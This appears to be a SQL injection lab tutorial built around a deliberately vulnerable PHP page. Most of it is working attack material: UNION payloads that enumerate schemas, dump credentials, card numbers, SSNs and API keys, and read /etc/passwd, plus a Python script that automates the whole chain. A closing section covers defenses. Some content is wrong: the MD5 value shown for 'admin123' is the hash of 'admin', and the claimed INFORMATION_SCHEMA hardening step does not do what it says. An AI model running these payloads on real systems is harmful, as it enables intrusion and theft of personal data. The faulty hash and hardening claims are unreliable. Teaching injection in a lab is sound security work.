

# SQL Injection: Information Gathering & UNION Attacks
## Practical Guide with Executable Examples

---

## Part 1: Understanding Error-Based Information Gathering

### Step 0: Triggering Errors for Reconnaissance



### Basic Error Triggering

```sql
-- In your test environment, try these in the username field:

-- 1. Single quote test
admin'

-- 2. Double quote test
admin"

-- 3. Backslash test
admin\

-- 4. Parenthesis test
admin')

-- 5. Comment test
admin' -- 

-- If you get errors like:
-- "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version"
-- This reveals: MySQL database, and potentially the version

-- 6. Multiple quote types
admin'"
admin')
admin"))
```

### What Error Messages Reveal

```sql
-- Example error messages and what they tell us:

-- MySQL Error:
-- "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version 5.7.33"
-- Reveals: MySQL, Version 5.7.33

-- PostgreSQL Error:
-- "ERROR: unterminated quoted string at or near "'"
-- Reveals: PostgreSQL

-- MSSQL Error:
-- "Microsoft OLE DB Provider for SQL Server error '80040e14'"
-- Reveals: Microsoft SQL Server

-- Oracle Error:
-- "ORA-01756: quoted string not properly terminated"
-- Reveals: Oracle Database
```

## Part 2: Testing Your PHP Application

### Create Your Vulnerable Test Endpoint

```php
<?php
// test_union.php - Vulnerable search for testing UNION attacks

$host = 'localhost';
$dbname = 'security_lab';
$username = 'root';
$password = '';

try {
    $pdo = new PDO("mysql:host=$host;dbname=$dbname", $username, $password);
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch(PDOException $e) {
    die("Connection failed: " . $e->getMessage());
}

// VULNERABLE: Direct concatenation
if (isset($_GET['id'])) {
    $id = $_GET['id'];
    
    // DELIBERATELY VULNERABLE QUERY
    $query = "SELECT id, username, email, role FROM users WHERE id = $id";
    
    echo "<h3>Executed Query:</h3>";
    echo "<pre>" . htmlspecialchars($query) . "</pre>";
    echo "<hr>";
    
    try {
        $result = $pdo->query($query);
        
        echo "<table border='1'>";
        echo "<tr><th>ID</th><th>Username</th><th>Email</th><th>Role</th></tr>";
        
        while ($row = $result->fetch(PDO::FETCH_ASSOC)) {
            echo "<tr>";
            echo "<td>" . htmlspecialchars($row['id']) . "</td>";
            echo "<td>" . htmlspecialchars($row['username']) . "</td>";
            echo "<td>" . htmlspecialchars($row['email']) . "</td>";
            echo "<td>" . htmlspecialchars($row['role']) . "</td>";
            echo "</tr>";
        }
        echo "</table>";
        
    } catch(PDOException $e) {
        echo "<div style='color:red;'><strong>Error:</strong> " . $e->getMessage() . "</div>";
    }
}

// Also show form for testing
?>
<form method="GET">
    <label>User ID:</label>
    <input type="text" name="id" value="1">
    <input type="submit" value="Query">
</form>
```

### Create Test Database with Sensitive Data

```sql
-- Create test database
CREATE DATABASE IF NOT EXISTS security_lab;
USE security_lab;

-- Users table (like wp_users)
CREATE TABLE IF NOT EXISTS users (
    id INT PRIMARY KEY AUTO_INCREMENT,
    username VARCHAR(50),
    password VARCHAR(255),
    email VARCHAR(100),
    role VARCHAR(20),
    display_name VARCHAR(100),
    credit_card VARCHAR(16),
    ssn VARCHAR(11),
    api_key VARCHAR(64)
);

-- Products table (for more UNION practice)
CREATE TABLE IF NOT EXISTS products (
    id INT PRIMARY KEY AUTO_INCREMENT,
    name VARCHAR(100),
    description TEXT,
    price DECIMAL(10,2),
    category VARCHAR(50)
);

-- Insert test users (simulating WordPress-like data)
INSERT INTO users (username, password, email, role, display_name, credit_card, ssn, api_key) VALUES
('admin', MD5('admin123'), 'admin@example.com', 'administrator', 'Admin User', '4532123456789012', '123-45-6789', 'sk-api-admin-12345'),
('john_doe', MD5('password123'), 'john@example.com', 'subscriber', 'John Doe', '4532987654321098', '987-65-4321', NULL),
('jane_editor', MD5('editor456'), 'jane@example.com', 'editor', 'Jane Editor', '4532567890123456', '456-78-9123', 'sk-api-editor-67890'),
('bob_author', MD5('author789'), 'bob@example.com', 'author', 'Bob Author', '4532345678901234', '789-12-3456', NULL),
('alice_mod', MD5('modpass321'), 'alice@example.com', 'moderator', 'Alice Mod', '4532789012345678', '321-54-9876', 'sk-api-mod-11111');

-- Insert products
INSERT INTO products (name, description, price, category) VALUES
('Laptop Pro', 'High-performance laptop with 16GB RAM', 1299.99, 'Electronics'),
('Wireless Mouse', 'Ergonomic wireless mouse', 49.99, 'Accessories'),
('Mechanical Keyboard', 'RGB mechanical keyboard', 159.99, 'Accessories'),
('USB-C Hub', '7-in-1 USB-C hub', 79.99, 'Accessories'),
('Monitor 27"', '4K UHD monitor', 499.99, 'Electronics');
```

---

## Part 3: UNION Attack Walkthrough

### Understanding UNION Requirements

```sql
-- RULE 1: Same number of columns
-- Original: SELECT id, username, email, role FROM users WHERE id = 1
-- This has 4 columns

-- UNION must also have 4 columns:
SELECT id, username, email, role FROM users WHERE id = 1
UNION
SELECT 1, 2, 3, 4

-- RULE 2: Compatible data types (MySQL is lenient)
-- RULE 3: Only one ORDER BY (at the end)
```

### Step-by-Step Column Count Discovery

```sql
-- TEST 1: ORDER BY method
-- Try each number until error:

-- In URL: test_union.php?id=1 ORDER BY 1
SELECT id, username, email, role FROM users WHERE id = 1 ORDER BY 1
-- Works! (4 columns exist)

-- In URL: test_union.php?id=1 ORDER BY 5
SELECT id, username, email, role FROM users WHERE id = 1 ORDER BY 5
-- Error! Column 5 doesn't exist
-- Conclusion: 4 columns

-- TEST 2: UNION SELECT NULL method
-- In URL: test_union.php?id=1 UNION SELECT NULL
-- Error: different number of columns

-- In URL: test_union.php?id=1 UNION SELECT NULL,NULL
-- Error: still different

-- In URL: test_union.php?id=1 UNION SELECT NULL,NULL,NULL
-- Error: still different

-- In URL: test_union.php?id=1 UNION SELECT NULL,NULL,NULL,NULL
-- Works! 4 columns confirmed

-- TEST 3: Incremental NULLs with comment
-- In URL: test_union.php?id=1 UNION SELECT NULL--
-- In URL: test_union.php?id=1 UNION SELECT NULL,NULL--
-- In URL: test_union.php?id=1 UNION SELECT NULL,NULL,NULL--
-- In URL: test_union.php?id=1 UNION SELECT NULL,NULL,NULL,NULL--
-- This works! 4 columns
```

### Finding Visible Columns

```sql
-- After finding 4 columns, find which ones display:

-- In URL: test_union.php?id=1 UNION SELECT 1,2,3,4
-- Query becomes:
SELECT id, username, email, role FROM users WHERE id = 1 
UNION 
SELECT 1,2,3,4

-- If you see: 2 and 3 in the output
-- Columns 2 and 3 are visible (username and email positions)

-- Alternative with -1 to hide original:
-- In URL: test_union.php?id=-1 UNION SELECT 1,2,3,4
-- Now only the UNION result shows! Cleaner output.

-- Testing with strings:
-- In URL: test_union.php?id=-1 UNION SELECT 1,'test_username','test_email',4
-- Confirms columns 2 and 3 display text
```

### Information Gathering with UNION

```sql
-- EXTRACT DATABASE VERSION
-- In URL: test_union.php?id=-1 UNION SELECT 1,@@version,3,4
-- Query:
SELECT id, username, email, role FROM users WHERE id = -1 
UNION 
SELECT 1,@@version,3,4
-- Result shows: 5.7.33-0ubuntu0.18.04.1 (MySQL on Ubuntu)

-- EXTRACT DATABASE NAME
-- In URL: test_union.php?id=-1 UNION SELECT 1,database(),3,4
-- Shows: security_lab

-- EXTRACT CURRENT USER
-- In URL: test_union.php?id=-1 UNION SELECT 1,user(),3,4
-- Shows: root@localhost

-- EXTRACT SERVER INFO
-- In URL: test_union.php?id=-1 UNION SELECT 1,@@hostname,@@datadir,4
-- Shows: hostname, data directory path

-- EXTRACT MULTIPLE VALUES
-- In URL: test_union.php?id=-1 UNION SELECT 1,CONCAT('DB:',database(),' | User:',user(),' | Ver:',@@version),3,4
-- Shows everything in one column
```

### Schema Enumeration - The REAL Power

```sql
-- ENUMERATE ALL DATABASES
-- In URL: test_union.php?id=-1 UNION SELECT 1,GROUP_CONCAT(SCHEMA_NAME),3,4 FROM information_schema.SCHEMATA
-- Query:
SELECT id, username, email, role FROM users WHERE id = -1 
UNION 
SELECT 1,GROUP_CONCAT(SCHEMA_NAME),3,4 FROM information_schema.SCHEMATA
-- Result: information_schema,mysql,performance_schema,security_lab,sys

-- ENUMERATE TABLES IN CURRENT DATABASE
-- In URL: test_union.php?id=-1 UNION SELECT 1,GROUP_CONCAT(table_name),3,4 FROM information_schema.tables WHERE table_schema=database()
-- Shows: products,users

-- ENUMERATE TABLES FROM ALL DATABASES
-- In URL: test_union.php?id=-1 UNION SELECT 1,CONCAT(table_schema,':',table_name),3,4 FROM information_schema.tables
-- Shows all tables with their database

-- ENUMERATE COLUMNS FROM users TABLE
-- In URL: test_union.php?id=-1 UNION SELECT 1,GROUP_CONCAT(column_name),3,4 FROM information_schema.columns WHERE table_name='users'
-- Shows: id,username,password,email,role,display_name,credit_card,ssn,api_key

-- ENUMERATE COLUMNS WITH TYPES
-- In URL: test_union.php?id=-1 UNION SELECT 1,GROUP_CONCAT(CONCAT(column_name,':',data_type)),3,4 FROM information_schema.columns WHERE table_name='users'
-- Shows column names and data types
```

### Dumping Sensitive Data

```sql
-- DUMP ALL USER CREDENTIALS
-- In URL: test_union.php?id=-1 UNION SELECT 1,CONCAT(username,':',password),email,role FROM users
-- Shows: admin:21232f297a57a5a743894a0e4a801fc3 (MD5 hash of 'admin')
--        john_doe:482c811da5d5b4bc6d497ffa98491e38

-- DUMP WITH BETTER FORMATTING
-- In URL: test_union.php?id=-1 UNION SELECT 1,CONCAT('User:',username,' | Pass:',password,' | Role:',role),email,display_name FROM users
-- Shows formatted credentials

-- DUMP CREDIT CARDS
-- In URL: test_union.php?id=-1 UNION SELECT 1,CONCAT(username,':',credit_card),3,4 FROM users WHERE credit_card IS NOT NULL
-- Shows: admin:4532123456789012, john_doe:4532987654321098

-- DUMP SSN
-- In URL: test_union.php?id=-1 UNION SELECT 1,CONCAT(username,':',ssn),3,4 FROM users WHERE ssn IS NOT NULL
-- Shows SSNs

-- DUMP API KEYS
-- In URL: test_union.php?id=-1 UNION SELECT 1,CONCAT(username,':',api_key),3,4 FROM users WHERE api_key IS NOT NULL
-- Shows API keys for admin, editor, moderator
```

### Advanced UNION Techniques

```sql
-- USING SUBSTRING FOR LARGE DATA
-- If GROUP_CONCAT cuts off:
-- In URL: test_union.php?id=-1 UNION SELECT 1,SUBSTRING(GROUP_CONCAT(table_name),1,50),3,4 FROM information_schema.tables WHERE table_schema=database()
-- Get first 50 characters

-- PAGINATION WITH LIMIT
-- In URL: test_union.php?id=-1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1
-- Get first table

-- In URL: test_union.php?id=-1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1
-- Get second table

-- EXTRACTING FROM OTHER DATABASES
-- In URL: test_union.php?id=-1 UNION SELECT 1,CONCAT('mysql user:',User,' host:',Host),3,4 FROM mysql.user
-- Shows MySQL users (dangerous!)

-- READING FILES (if FILE privilege)
-- In URL: test_union.php?id=-1 UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4
-- Shows system users

-- In URL: test_union.php?id=-1 UNION SELECT 1,LOAD_FILE('C:\\xampp\\htdocs\\config.php'),3,4
-- Shows PHP configuration
```

---

## Part 4: Database-Specific Techniques

### MySQL-Specific (As shown in your text)

```sql
-- MySQL default database: information_schema

-- List all schemas (databases)
SELECT schema_name FROM information_schema.schemata

-- List all tables in current database
SELECT table_name FROM information_schema.tables WHERE table_schema = database()

-- List all tables in specific database (like WordPress)
SELECT table_name FROM information_schema.tables WHERE table_schema = 'wordpress'

-- List columns in specific table
SELECT column_name FROM information_schema.columns WHERE table_name = 'wp_users'

-- Complete schema enumeration
SELECT table_schema, table_name, column_name 
FROM information_schema.columns 
WHERE table_schema NOT IN ('mysql', 'information_schema', 'performance_schema')
```

### Microsoft SQL Server-Specific

```sql
-- MSSQL master database
SELECT name FROM master..sysdatabases

-- List tables in MSSQL
SELECT name FROM sysobjects WHERE xtype = 'U'

-- xtype values:
-- U = User table
-- S = System table
-- V = View
-- P = Stored procedure
-- TR = Trigger
-- C = CHECK constraint
-- D = Default constraint
-- F = FOREIGN KEY constraint
-- PK = PRIMARY KEY
-- UQ = UNIQUE constraint

-- MSSQL version
SELECT @@VERSION

-- Current database
SELECT DB_NAME()
```

### Oracle-Specific

```sql
-- Oracle database name
SELECT name FROM v$database
SELECT global_name FROM global_name
SELECT SYS.DATABASE_NAME FROM DUAL

-- Oracle tables accessible to user
SELECT table_name, owner FROM all_tables

-- Oracle columns
SELECT column_name FROM all_tab_columns WHERE table_name = 'USERS'

-- Oracle version
SELECT banner FROM v$version WHERE ROWNUM = 1
```

---

## Part 5: Complete Attack Scripts

### Python Script for Automated UNION Exploitation

```python
#!/usr/bin/env python3
"""
union_exploiter.py - Automated UNION-based SQL injection
Test on YOUR OWN application only
"""

import requests
import sys
from urllib.parse import quote

class UnionExploiter:
    def __init__(self, url, param):
        self.url = url
        self.param = param
        self.session = requests.Session()
        self.column_count = 0
        self.visible_columns = []
        
    def test_error(self, payload):
        """Test if payload causes SQL error"""
        try:
            response = self.session.get(
                self.url,
                params={self.param: payload},
                timeout=10
            )
            
            error_patterns = [
                'SQL syntax',
                'mysql_fetch',
                'Warning: mysql',
                'valid MySQL',
                'PostgreSQL',
                'ORA-',
                'Microsoft OLE DB'
            ]
            
            return any(pattern in response.text for pattern in error_patterns)
        except:
            return False
    
    def find_column_count(self):
        """Find number of columns using ORDER BY"""
        print("[+] Finding column count...")
        
        for i in range(1, 20):
            payload = f"1 ORDER BY {i}"
            
            if self.test_error(payload) or i == 19:
                self.column_count = i - 1
                print(f"[+] Found {self.column_count} columns")
                return self.column_count
            
            print(f"    Testing {i} columns...")
        
        return 0
    
    def find_visible_columns(self):
        """Find which columns display output"""
        print("[+] Finding visible columns...")
        
        # Create NULL values
        nulls = ["NULL"] * self.column_count
        
        for i in range(self.column_count):
            # Replace one NULL at a time with a number
            test_nulls = nulls.copy()
            test_nulls[i] = str(i + 1)
            
            payload = f"-1 UNION SELECT {','.join(test_nulls)}"
            
            try:
                response = self.session.get(
                    self.url,
                    params={self.param: payload},
                    timeout=10
                )
                
                if str(i + 1) in response.text:
                    self.visible_columns.append(i)
                    print(f"    Column {i+1} is visible")
                    
            except Exception as e:
                print(f"    Error testing column {i+1}: {e}")
        
        return self.visible_columns
    
    def extract_data(self, query, column_index=0):
        """Extract data using visible column"""
        if not self.visible_columns:
            print("[-] No visible columns found")
            return None
        
        visible_col = self.visible_columns[column_index]
        
        # Create NULLs with query in visible column
        nulls = ["NULL"] * self.column_count
        nulls[visible_col] = query
        
        payload = f"-1 UNION SELECT {','.join(nulls)}"
        
        try:
            response = self.session.get(
                self.url,
                params={self.param: payload},
                timeout=10
            )
            return response.text
        except Exception as e:
            print(f"[-] Error: {e}")
            return None
    
    def run_exploitation(self):
        """Run complete exploitation chain"""
        print("=" * 60)
        print("UNION SQL Injection Exploitation Tool")
        print("=" * 60)
        
        # Step 1: Find columns
        if not self.find_column_count():
            print("[-] Could not determine column count")
            return
        
        # Step 2: Find visible columns
        if not self.find_visible_columns():
            print("[-] No visible columns found")
            return
        
        # Step 3: Extract system information
        print("\n[+] Extracting System Information...")
        
        system_queries = [
            ("Database Version", "@@version"),
            ("Database Name", "database()"),
            ("Current User", "user()"),
            ("Server Hostname", "@@hostname"),
        ]
        
        for name, query in system_queries:
            print(f"\n[*] {name}:")
            result = self.extract_data(query)
            if result:
                print(f"    Query executed successfully")
        
        # Step 4: Enumerate schema
        print("\n[+] Enumerating Database Schema...")
        
        schema_queries = [
            ("All Databases", 
             "GROUP_CONCAT(SCHEMA_NAME) FROM information_schema.SCHEMATA"),
            ("Tables in Current DB", 
             "GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()"),
            ("Columns in Users Table", 
             "GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='users'"),
        ]
        
        for name, query in schema_queries:
            print(f"\n[*] {name}:")
            full_query = f"({query})"
            result = self.extract_data(full_query)
            if result:
                print(f"    Data extracted")
        
        # Step 5: Extract sensitive data
        print("\n[+] Extracting Sensitive Data...")
        
        sensitive_queries = [
            ("User Credentials", 
             "GROUP_CONCAT(CONCAT(username,':',password,':',email)) FROM users"),
            ("Admin API Keys", 
             "GROUP_CONCAT(CONCAT(username,':',api_key)) FROM users WHERE api_key IS NOT NULL"),
            ("Credit Cards", 
             "GROUP_CONCAT(CONCAT(username,':',credit_card)) FROM users WHERE credit_card IS NOT NULL"),
        ]
        
        for name, query in sensitive_queries:
            print(f"\n[*] {name}:")
            full_query = f"({query})"
            result = self.extract_data(full_query)
            if result:
                print(f"    Data extracted successfully!")

# Main execution
if __name__ == "__main__":
    # Target: http://localhost/test_union.php?id=
    exploiter = UnionExploiter("http://localhost/test_union.php", "id")
    exploiter.run_exploitation()
```

### PHP Script for Manual Testing

```php
<?php
// manual_union_test.php
// Use this to manually test different UNION payloads

$base_url = "http://localhost/test_union.php";

// Test payloads organized by type
$payloads = [
    // Column count discovery
    "1 ORDER BY 1" => "Testing 1 column",
    "1 ORDER BY 2" => "Testing 2 columns",
    "1 ORDER BY 3" => "Testing 3 columns",
    "1 ORDER BY 4" => "Testing 4 columns",
    "1 ORDER BY 5" => "Testing 5 columns",
    
    // Find visible columns
    "-1 UNION SELECT 1,2,3,4" => "All columns test",
    "-1 UNION SELECT 'test1','test2','test3','test4'" => "String test",
    
    // System information
    "-1 UNION SELECT 1,@@version,3,4" => "Database version",
    "-1 UNION SELECT 1,database(),3,4" => "Database name",
    "-1 UNION SELECT 1,user(),3,4" => "Current user",
    "-1 UNION SELECT 1,@@hostname,3,4" => "Server hostname",
    
    // Schema enumeration
    "-1 UNION SELECT 1,GROUP_CONCAT(SCHEMA_NAME),3,4 FROM information_schema.SCHEMATA" => "All databases",
    "-1 UNION SELECT 1,GROUP_CONCAT(table_name),3,4 FROM information_schema.tables WHERE table_schema=database()" => "Tables",
    "-1 UNION SELECT 1,GROUP_CONCAT(column_name),3,4 FROM information_schema.columns WHERE table_name='users'" => "Users columns",
    
    // Data extraction
    "-1 UNION SELECT 1,GROUP_CONCAT(username,':',password),3,4 FROM users" => "User credentials",
    "-1 UNION SELECT 1,GROUP_CONCAT(username,':',credit_card),3,4 FROM users" => "Credit cards",
    "-1 UNION SELECT 1,GROUP_CONCAT(username,':',ssn),3,4 FROM users" => "SSN numbers",
    "-1 UNION SELECT 1,GROUP_CONCAT(username,':',api_key),3,4 FROM users WHERE api_key IS NOT NULL" => "API keys",
];

echo "<h2>Manual UNION Injection Testing</h2>";
echo "<table border='1'>";
echo "<tr><th>Description</th><th>Payload</th><th>Action</th></tr>";

foreach ($payloads as $payload => $description) {
    $url = $base_url . "?id=" . urlencode($payload);
    echo "<tr>";
    echo "<td>$description</td>";
    echo "<td><code>" . htmlspecialchars($payload) . "</code></td>";
    echo "<td><a href='$url' target='_blank'>Test</a></td>";
    echo "</tr>";
}

echo "</table>";
?>
```

---

## Part 6: Understanding What You've Extracted

### Password Hashes Explained

```sql
-- Extracted passwords are typically hashed
-- MD5 hash examples:
-- admin123 → 21232f297a57a5a743894a0e4a801fc3 (MD5)
-- password → 5f4dcc3b5aa765d61d8327deb882cf99 (MD5)

-- How applications verify passwords:
SELECT * FROM users 
WHERE username = 'admin' 
AND password = MD5('admin123')

-- NOT:
SELECT * FROM users 
WHERE username = 'admin' 
AND password = 'admin123'  -- Wrong! Password is stored as hash

-- Testing if hash is MD5:
-- Length: 32 characters
-- Characters: 0-9, a-f only
-- Example: 21232f297a57a5a743894a0e4a801fc3
```

### What Attackers Can Do With Your Data

```sql
-- With extracted credentials (even hashed):
-- 1. Online password cracking (hashcat, john)
-- 2. Rainbow table lookup
-- 3. Credential stuffing on other sites
-- 4. Direct login if passwords are weak

-- With extracted PII (credit cards, SSN):
-- 1. Identity theft
-- 2. Financial fraud
-- 3. Dark web sale

-- With API keys:
-- 1. Access to external services
-- 2. Impersonation of application
-- 3. Data exfiltration through legitimate APIs
```

---

## Part 7: Preventing UNION Attacks

### Secure PHP Implementation

```php
<?php
// secure_query.php - Protected against UNION injection

// Method 1: Prepared Statements (BEST)
$stmt = $pdo->prepare("SELECT id, username, email, role FROM users WHERE id = ?");
$stmt->execute([$id]);
$result = $stmt->fetchAll();

// Method 2: Type casting (integer validation)
$id = intval($_GET['id']);  // Forces integer
$query = "SELECT id, username, email, role FROM users WHERE id = $id";
// Now '1 UNION SELECT...' becomes just '1'

// Method 3: Input validation
if (!is_numeric($_GET['id'])) {
    die("Invalid input");
}

// Method 4: Escape (last resort, not recommended)
$id = mysqli_real_escape_string($conn, $_GET['id']);
$query = "SELECT id, username, email, role FROM users WHERE id = '$id'";
```

### Database Hardening

```sql
-- Create application-specific user with limited privileges
CREATE USER 'app_user'@'localhost' IDENTIFIED BY 'strong_password';
GRANT SELECT ON security_lab.* TO 'app_user'@'localhost';
REVOKE ALL ON mysql.* FROM 'app_user'@'localhost';
REVOKE FILE ON *.* FROM 'app_user'@'localhost';
FLUSH PRIVILEGES;

-- Disable INFORMATION_SCHEMA for application user (MySQL 5.7+)
-- This prevents schema enumeration even if injected
UPDATE mysql.user SET plugin = 'mysql_native_password' WHERE User = 'app_user';
```

### WAF Rules to Block UNION

```nginx
# Nginx WAF rules
if ($args ~* "union.*select") {
    return 403;
}
if ($args ~* "information_schema") {
    return 403;
}
if ($args ~* "group_concat") {
    return 403;
}
```

---

## Summary

**Key Attack Pattern:**
1. Trigger errors to identify DBMS
2. Find column count via ORDER BY or NULL SELECTs
3. Find visible columns with UNION SELECT numbers
4. Extract system info: @@version, database(), user()
5. Enumerate schema via information_schema
6. Dump sensitive data column by column

**Your Test Environment Results:**
- Error messages reveal MySQL version
- UNION SELECT 1,2,3,4 shows which columns display
- information_schema reveals all tables and columns
- GROUP_CONCAT dumps entire tables in one request

**Defense Checklist:**
- [ ] Use parameterized queries everywhere
- [ ] Validate and type-cast inputs
- [ ] Limit database user privileges
- [ ] Hide error messages from users
- [ ] Implement WAF rules
- [ ] Monitor for UNION/SLEEP/BENCHMARK patterns
- [ ] Regular security testing
